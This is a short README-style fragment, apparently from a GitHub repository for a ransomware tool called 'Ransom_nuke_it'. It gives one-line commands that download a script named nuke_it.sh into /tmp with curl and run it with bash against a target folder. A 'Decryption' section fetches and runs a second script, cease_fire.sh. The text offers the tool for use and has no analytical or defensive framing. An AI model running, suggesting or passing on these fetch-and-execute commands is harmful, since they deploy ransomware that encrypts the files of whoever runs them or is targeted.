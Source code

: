 Download image and run nuke_it.sh directly
-------------------------------------------
cd /tmp && curl -O https://github.com/sectorxatwork/Ransom_nuke_it/blob/main/Hacked.jpg  && 
curl -O https://raw.githubusercontent.com/sectorxatwork/Ransom_nuke_it/refs/heads/main/nuke_it.sh && bash nuke_it.sh <folder>


Decryption 
-------------
curl -O https://raw.githubusercontent.com/sectorxatwork/Ransom_nuke_it/refs/heads/main/cease_fire.sh && bash cease_fire.sh
